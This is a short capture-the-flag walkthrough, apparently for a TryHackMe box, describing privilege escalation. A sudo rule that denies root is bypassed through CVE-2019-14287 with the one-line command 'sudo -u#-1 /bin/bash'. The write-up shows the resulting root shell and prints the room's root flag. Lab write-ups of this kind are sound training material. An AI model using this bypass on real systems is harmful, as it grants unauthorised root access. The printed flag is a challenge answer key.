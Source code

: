 _____________________________

Privilege Escalation
-------------------------------------------

On running the `sudo -l` command, Output - 

~~~~~~~~~~~
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash

~~~~~~~~~~~~~~


`(ALL, !root) /bin/bash` - Although this seems to deny access to root, the target is vulnerable to `CVE-2019-14287`, a sudo security bypass that occurs when an invalid user ID is specified.

___________________

#### Exploit:

`sudo -u#-1 /bin/bash`

Explanation - 

~~~~~~~
This spawns a root shell! `-u#-1` is interpreted as UID `0` (root), bypassing restrictions.
~~~~~~~~~~~

This gives us the root shell and hence the root flag.

~~~~~~~
root@agent-sudo:/# cd root/
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R


~~~~~~~~~~~~

**Root Flag**: `b53a02f55b57d4439e3341834d70c062`

